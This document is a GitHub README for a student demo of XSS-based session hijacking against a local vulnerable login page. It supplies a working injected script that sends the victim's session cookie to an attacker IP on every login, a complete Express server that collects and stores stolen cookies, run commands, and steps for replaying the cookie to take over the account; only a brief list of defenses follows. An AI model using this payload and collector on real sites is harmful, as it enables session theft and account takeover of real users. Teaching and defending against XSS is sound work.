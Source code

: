 # 🚀 XSS-Based Session Hijacking Attack (Automatic Cookie Theft)
This project demonstrates how an **XSS (Cross-Site Scripting) attack** can be used to **automatically steal a victim’s session cookie** as soon as they log in, allowing the attacker to hijack the session.

---

## 📌 Overview
### Components of the Attack:
✅ **A vulnerable login page (`index.html`)** where the victim logs in.  
✅ **A JavaScript-based XSS payload** that runs automatically when the victim logs in.  
✅ **An attacker server (`attacker.js`)** that captures and logs stolen session cookies.  
✅ **A Node.js backend (`server.js`)** running the web application.  

---

## 📌 How the Attack Works

### 1️⃣ **Step 1: Victim Logs In**
- The victim visits the vulnerable website:
http://localhost:3000

yaml
Copy
Edit
- They enter their **username & password** and click **Login**.

📌 **Screenshot:**  
![Victim Login](screenshots/ss1.png)

---

### 2️⃣ **Step 2: XSS Payload Executes Automatically**
- The victim does **not** see anything suspicious.
- In the background, the login page **automatically runs a hidden script** that sends their **session cookie** to the attacker’s server.

📌 **Screenshot:**  
![XSS Payload Executed](screenshots/ss2.png)

---

### 3️⃣ **Step 3: Attacker Receives the Stolen Cookie**
- The attacker's server (`attacker.js`) **logs the victim’s session cookie** immediately.
- The stolen cookie is also **saved to `stolen_cookies.txt`**.

📌 **Screenshot:**  
![Cookie Stolen](screenshots/ss3.png)

---

### 4️⃣ **Step 4: Attacker Uses the Stolen Cookie**
- The attacker injects the **stolen session cookie** into their browser using **EditThisCookie** or Developer Tools (`F12`).

📌 **Screenshot:**  
![Cookie Injected](screenshots/ss4.png)

---

### 5️⃣ **Step 5: Attacker Successfully Hijacks the Session**
- The attacker **refreshes the page** and is now logged in **as the victim without entering a password**.

📌 **Screenshot:**  
![Session Hijacked](screenshots/ss5.png)

---

## 📌 How to Run This Attack Locally

### 1️⃣ **Install Dependencies**
```sh
npm install express
###2️⃣ **Start the Vulnerable Web Server**
sh
Copy
Edit
node server.js
The web app will start on:
arduino
Copy
Edit
http://localhost:3000

---

###3️⃣ **Start the Attacker’s Server**
sh
Copy
Edit
node attacker.js
The attacker server will listen for stolen cookies at:
cpp
Copy
Edit
http://192.168.X.X:4000

---

### 📌 The XSS Payload (Auto Cookie Theft)
This script is injected into the vulnerable login page (index.html) so that when the victim logs in, their cookie is stolen automatically.

---

### 🔹 Inside index.html (before </body>)
html
Copy
Edit
<script>
document.getElementById("loginForm").addEventListener("submit", function() {
    fetch("http://192.168.64.2:4000/steal?cookie=" + document.cookie);
});
</script>
🔹 Replace 192.168.64.2 with your attacker's IP (run ip a to check).

### ✅ This ensures that every login automatically sends the session cookie to the attacker! 🎯

---

📌 Attacker’s Server (attacker.js)
This script captures and logs the stolen session cookies.

###🔹 Inside attacker.js
javascript
Copy
Edit
const express = require('express');
const fs = require('fs');
const app = express();

app.get('/steal', (req, res) => {
    const stolenCookie = req.query.cookie;

    if (stolenCookie) {
        console.log("🚨 Stolen Cookie:", stolenCookie);
        fs.appendFileSync('stolen_cookies.txt', `${new Date()} - ${stolenCookie}\n`);
        res.send('Cookie stolen and logged!');
    } else {
        res.send('No cookie received.');
    }
});

app.listen(4000, '0.0.0.0', () => {
    console.log('🚀 Attacker server running on http://0.0.0.0:4000');
});

---

#📌 How to Defend Against This Attack
To prevent XSS-based session hijacking:

1️⃣ Use HttpOnly cookies so JavaScript cannot access them.
2️⃣ Enable Secure and SameSite flags to limit exposure.
3️⃣ Sanitize all user input to block XSS injection.
4️⃣ Implement Content Security Policy (CSP) to block unauthorized scripts.
5️⃣ Use Multi-Factor Authentication (MFA) to protect accounts.

--------------------------------------------

#📌 CREDITS
💻 Developed by: Md Tanvir Rana(AG2409), Margarita Nyman(AG2668)
📅 Date: (2025-03-16)
🛡️ For educational and ethical hacking purposes only.

